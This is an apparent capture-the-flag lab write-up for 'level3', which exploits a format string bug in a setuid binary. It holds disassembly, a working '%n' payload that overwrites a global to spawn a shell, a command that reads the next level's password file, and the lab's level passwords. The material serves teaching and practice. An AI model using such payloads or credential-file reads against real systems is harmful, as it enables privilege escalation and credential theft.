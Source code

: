 # Level3 - Format string vulnerability - Basic write short integer

## Local script usage

```shell
Usage: ./main.sh
```

## Passwords and token

|        |                                                                    |
| ------ | ------------------------------------------------------------------ |
| level3 | `492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02` |
| level4 | `b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa` |

## Steps to resolve on VM

Note: We will use `gdb-peda`. You can setup peda with the script: [scripts/installPeda.sh](../../scripts/installPeda.sh)

1. Connect to `level3` user

```shell
ssh level3@$SNOW_HOST -p 4242
# Enter the password

ls -l
> -rwsr-s---+ 1 level4 users 5366 Mar  6  2016 level3
```

Notice there is a binary with level3 setuid and setgid.

2. Debug level3

Execute level3

```shell
./level3
(stdin) abcdef
> abcdef
```

Seems to be like level2.

Lets debug the binary

```shell
(gdb) info functions

> (...)
  0x080484a4  v
  0x0804851a  main
  (...)
```

```shell
gdb-peda$ pdisas main
  0x0804851a <+0>:     push   ebp
  0x0804851b <+1>:     mov    ebp,esp
  0x0804851d <+3>:     and    esp,0xfffffff0
  0x08048520 <+6>:     call   0x80484a4 <v>                     # call v()
  0x08048525 <+11>:    leave
  0x08048526 <+12>:    ret

gdb-peda$ pdisas v
  0x080484a4 <+0>:     push   ebp
  0x080484a5 <+1>:     mov    ebp,esp
  0x080484a7 <+3>:     sub    esp,0x218
  0x080484ad <+9>:     mov    eax,ds:0x8049860                  # 0x8049860 <stdin@@GLIBC_2.0>
  0x080484b2 <+14>:    mov    DWORD PTR [esp+0x8],eax           # buffer starts at esp+0x8
  0x080484b6 <+18>:    mov    DWORD PTR [esp+0x4],0x200         # fgets maxLength = 0x200 (512)
  0x080484be <+26>:    lea    eax,[ebp-0x208]
  0x080484c4 <+32>:    mov    DWORD PTR [esp],eax
  0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>             # call fgets(buf, 0x200, stdin)
  0x080484cc <+40>:    lea    eax,[ebp-0x208]
  0x080484d2 <+46>:    mov    DWORD PTR [esp],eax
  0x080484d5 <+49>:    call   0x8048390 <printf@plt>            # call printf(buf)
  0x080484da <+54>:    mov    eax,ds:0x804988c
  0x080484df <+59>:    cmp    eax,0x40                          # if $eax == 0x40 (64) ?
  0x080484e2 <+62>:    jne    0x8048518 <v+116>                 # if != jump leave
  0x080484e4 <+64>:    mov    eax,ds:0x8049880                  # 0x8049880 <stdout@@GLIBC_2.0>
  0x080484e9 <+69>:    mov    edx,eax
  0x080484eb <+71>:    mov    eax,0x8048600                     # 0x8048600:       "Wait what?!\n"
  0x080484f0 <+76>:    mov    DWORD PTR [esp+0xc],edx
  0x080484f4 <+80>:    mov    DWORD PTR [esp+0x8],0xc           # nmemb=12
  0x080484fc <+88>:    mov    DWORD PTR [esp+0x4],0x1           # size=1
  0x08048504 <+96>:    mov    DWORD PTR [esp],eax
  0x08048507 <+99>:    call   0x80483b0 <fwrite@plt>            # call fwrite("Wait what?!\n", 1, 12, stdout)
  0x0804850c <+104>:   mov    DWORD PTR [esp],0x804860d         # 0x804860d:       "/bin/sh"
  0x08048513 <+111>:   call   0x80483c0 <system@plt>            # call system("/bin/sh")
  0x08048518 <+116>:   leave
  0x08048519 <+117>:   ret
```

We can see, there is a function `fgets`. In the previous level, `gets` function was the vulnerability. As `fgets` is protected with a `size` parameter to control the number of chars readed, the function is safe.

Then there is an unsafe `printf` syscall. Unsafe because the argument `buf` is directly passed without any format string.

Using printf specifiers we can use this buffer to read and write the stack. This vulnerability is called "Format string attack".

```bash
~/level3 <<< %p
0x200 # print first content after printf argument

~/level3 <<< "%08x.%08x.%08x\n"
> 00000200.b7fd1ac0.b7ff37d0\n # print 3 addresses after printf argument

gdb-peda$ b printf
gdb-peda$ run <<< AAAA
[------------------------------------stack-------------------------------------]
0000| 0xbffff42c --> 0x80484da (<v+54>: mov    eax,ds:0x804988c)
0004| 0xbffff430 --> 0xbffff440 ("AAAA\n")
0008| 0xbffff434 --> 0x200
0012| 0xbffff438 --> 0xb7fd1ac0 --> 0xfbad2288
0016| 0xbffff43c --> 0xb7ff37d0 (<__libc_memalign+16>:  add    ebx,0xb824)
0020| 0xbffff440 ("AAAA\n")
0024| 0xbffff444 --> 0xb7e2000a
0028| 0xbffff448 --> 0x1
[------------------------------------------------------------------------------]
```

We can see an offset of 4 between the printf argument (`0xbffff430`) and the real address of the buffer (`0xbffff440`).

```bash
/level3 <<< 'AAAA.%4$p'
AAAA.0x41414141
```

The specifier `%4$p` prints the 4th address before the printf argument, which contains our buffer string

But the goal is to replace the value of the global variable `m` with 0x40 (64).

To do that, we will use the specifier `%n`. According to the printf() man page, here is what %n should do :

> The number of characters written so far is stored into the integer indicated by the int \* (or variant) pointer argument. No argument is converted.

Basically, it means that `%n` will write the size of our input at the address pointed by `%n`. For example, the following input : `AAAA%n`, means that we will write the value 4 (because the size of "AAAA" equals 4) at the address pointed by `%n`.

The address of the global `m` is `0x0804988c` in big endian.

We have to have a format string like: `<ADDRESS_TO_WRITE_ON> + <PADDING> + "%n"`

```
=> `"\x8c\x98\x04\x08" + "A" * (64 - 4) + "%4$n"`
            |             |                |________ %n specifier with offset of 4
            |             |_________________________ padding of size 60 to write the value 64
            |_______________________________________ m address
```

Lets try

```shell
gdb-peda$ b*v+54
gdb-peda$ run < <(python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"')

[------------------------------------stack-------------------------------------]
0000| 0xbffff430 --> 0xbffff440 --> 0x804988c --> 0x40 ('@')
0004| 0xbffff434 --> 0x200
0008| 0xbffff438 --> 0xb7fd1ac0 --> 0xfbad2088
0012| 0xbffff43c --> 0xb7ff37d0 (<__libc_memalign+16>:  add    ebx,0xb824)
0016| 0xbffff440 --> 0x804988c --> 0x40 ('@')
[------------------------------------------------------------------------------]

gdb-peda$ continue
> Wait what?!
  [New process 5560]
  process 5560 is executing new program: /bin/dash
```

Great! `0xbffff440` has now the value 0x40, and the terminal has been created

We don't have the level4 rights with gdb. Lets try directly with the binary to access the shell:

```bash
(echo `python -c 'print "\x8c\x98\x04\x08" + "%60x" + "%4$n"'` ; cat) | ~/level3
> Wait what?!

$ id
> uid=2022(level3) gid=2022(level3) euid=2025(level4) egid=100(users) groups=2025(level4),100(users),2022(level3)

$ cat /home/user/level4/.pass
> b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

---

## Sources

### Format string vulnerability

- [Memory segmentation - Cheat sheet](https://www.0x0ff.info/wp-content/uploads/2015/12/buffer-overflow-memory-segmentation-cheat-sheet.png)

- [Format string attack - Introduction](https://owasp.org/www-community/attacks/Format_string_attack)
- [Exploit 101 - Format Strings](https://axcheron.github.io/exploit-101-format-strings/)
- [Exploiting Format String Vulnerabilities](https://cs155.stanford.edu/papers/formatstring-1.2.pdf)

### Shell

- [Man fgets](https://linux.die.net/man/3/fgets)
- [Man printf](https://linux.die.net/man/3/printf)
- [Man fwrite](https://linux.die.net/man/3/fwrite)
- [Man system](https://linux.die.net/man/3/system)

